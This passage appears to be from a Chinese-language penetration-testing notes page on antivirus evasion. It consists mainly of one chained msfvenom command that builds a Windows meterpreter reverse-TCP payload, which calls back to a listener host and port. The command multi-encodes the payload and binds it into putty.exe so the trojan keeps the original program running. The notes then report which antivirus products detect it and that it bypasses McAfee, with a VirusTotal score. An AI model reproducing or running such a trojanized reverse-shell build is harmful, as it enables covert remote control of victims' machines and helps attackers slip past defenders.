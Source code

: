![image-20220526194938055](./images/202205261949206.png)

还有更多重编码姿势：

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.74.133 LPORT=5110 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > payload6.exe
```

经过测试，发现使用的编码类型越多，免杀率可能会降低，猜测是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

360可以查杀，火绒不能查杀。

在virustotal.com上查杀率为28/67（原po为45/70），Bypass了McAfee。

360：

![image-20220526195103114](./images/202205261951182.png)
